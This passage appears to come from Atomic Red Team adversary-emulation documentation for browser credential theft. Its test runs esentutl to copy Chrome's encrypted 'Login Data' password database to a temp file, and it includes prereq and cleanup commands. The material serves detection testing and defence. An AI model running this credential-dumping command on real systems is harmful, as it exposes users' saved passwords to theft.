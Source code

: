 ##### Get Prereq Commands:

```powershell
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T155.003/src/LoginData?raw=true" -Outfile: "PathToAtomicsFolder\T1555.003\src\Login Data"
```

<br/>
<br/>

## Atomic Test #17 - Dump Chrome Login Data with esentutl

This test simulates an adversary using esentutl to dump encrypted credentials from Google Chrome's Login database.
[Reference](https://actzero.ai/resources/blog/hygiene-tip-shut-down-attackers-harvesting-cached-browser-credentials/)

**Supported Platforms:** Windows

**auto_generated_guid:** 70422253-8198-4019-b617-6be401b49fce

#### Inputs:

| Name        | Description                   | Type   | Default Value                       |
| ----------- | ----------------------------- | ------ | ----------------------------------- |
| output_path | File path for login data dump | string | %temp%&#92;T1555.003_Login_Data.tmp |

#### Attack Commands: Run with `command_prompt`!

```cmd
esentutl.exe /y "%LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data" /d "#{output_path}"
```

#### Cleanup Commands:

```cmd
del /f /q #{output_path} > nul 2>&1
```

#### Dependencies: Run with `powershell`!

##### Description: Chrome must be installed

##### Check Prereq Commands:

```powershell
if ((Test-Path "C:\Program Files\Google\Chrome\Application\chrome.exe") -Or (Test-Path "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe")) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
$installer = "PathToAtomicsFolder\..\ExternalPayloads\ChromeStandaloneSetup64.msi"
Invoke-WebRequest -OutFile "PathToAtomicsFolder\..\ExternalPayloads\ChromeStandaloneSetup64.msi" https://dl.google.com/chrome/install/googlechromestandaloneenterprise64.msi
msiexec /i $installer /qn
Start-Process -FilePath "chrome.exe"
Stop-Process -Name "chrome"
```

<br/>
